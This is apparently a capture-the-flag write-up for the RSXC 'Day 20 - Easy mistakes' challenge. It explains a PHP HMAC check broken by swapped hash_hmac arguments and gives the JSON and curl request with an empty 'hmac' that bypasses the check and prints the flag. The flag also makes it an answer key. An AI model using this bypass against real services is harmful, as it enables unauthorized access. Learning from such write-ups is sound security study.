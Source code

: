 # Day 20 - Easy mistakes

When programming, it is easy to make simple mistakes, and some of them can have dire consequences.

## Write-Up
Browsing the link we get this output, which we can clean up a bit...

```
This is the code found in /api.php

<?php
    $data = json_decode(file_get_contents('php://input'), true);
    
    if(!isset($data['hmac']) || !isset($data['host'])) {
        header("HTTP/1.0 400 Bad Request");
        exit;
    }
    $secret = getenv("SECRET");
    $flag = getenv("FLAG");
    $hmac = hash_hmac($data["host"], $secret, "sha256");
    
    if ($hmac != $data['hmac']){
        header("HTTP/1.0 403 Forbidden");
        exit;
    }
    
    echo $flag;
```

Let's look closer at what this code does.

- First convert and store the input (JSON string).
   - Ref: https://www.php.net/manual/en/function.json-decode.php
- Check if keys "hmac" and "host" from the input are set
   - If not, then give 404 and exit
- Get value from environment variables; SECRET and FLAG.
   - Ref: https://www.php.net/manual/en/function.getenv.php
- Calculate HMAC Hash
   - Ref: https://www.php.net/manual/en/function.hash-hmac.php
- Check if HMAC Hash match Value read from request
   - If not, then give 403 and exit
- Print the flag... IF alle checks have passed...

All looks good, except one thing!
Looking at the docs for `hash_hmac`, we see that the correct order of parameters for this function is
```
hash_hmac( string $algo, string $data, string $key)
```

The programmer has definitely been in a hurry and not used the right order of the arguments.
This usage will return an empty string and store it in `$hmac`. As we can control the value of "hmac" we provide, we only need to privde an empty string. The "host" value just have to be set.

We create the following JSON:

```
{
    "hmac" : "",
    "host" : "do.not.care"
}
```

We could use `BURP proxy` and forge the requst that way, but lets use `cURL`

```shell
$ curl http://rsxc.no:20020/api.php -d '{ "hmac" : "", "host" : "do.not.care" }'
RSXC{You_have_to_have_the_right_order_for_arguments!}
```

## The Flag
RSXC{You_have_to_have_the_right_order_for_arguments!}